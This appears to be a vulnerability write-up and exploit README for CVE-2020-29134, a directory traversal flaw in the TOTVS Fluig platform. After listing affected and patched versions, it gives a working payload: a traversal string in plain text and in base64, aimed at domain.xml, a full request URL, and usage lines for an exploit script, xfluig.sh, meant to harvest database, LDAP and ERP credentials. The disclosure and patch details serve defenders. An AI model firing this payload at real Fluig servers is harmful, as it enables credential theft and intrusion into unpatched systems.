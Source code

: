 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
cover: /blog/assets/images/posts/fluig.png
categories: CVE
---
```


#### Totvs Fluig Platform
     
Fluig is the productivity and collaboration platform that integrates with the ERP system,
and your company’s other systems to revolutionize the way you and your team work.
 
#### CVE-2020-29134
     
TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
When exploited, this vulnerability allows the reading of sensitive XML files,
which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
     
#### Versions affecteds 

<== Fluig Lake 1.7.0

<== Fluig 1.6.5

<== Fluig 1.6.4

#### Patched versions

Fluig Lake 1.7.0-210303 (Patched)

Fluig 1.6.5-210308 (Patched)

Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector

http://fluig.host.com/volume/stream/Rmx1aWc=/

#### Path traversal plain text

?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml

#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Payload 

http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=

#### Exploit-DB reference
https://www.exploit-db.com/exploits/49622

     
#### Clone Repository

git clone https://github.com/lucxssouza/CVE-2020-29134.git
cd CVE-2020-29134
chmod +x xfluig.sh

#### Usage

Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

Ex2: ./xfluig.sh http://fluig.host.com:PORT
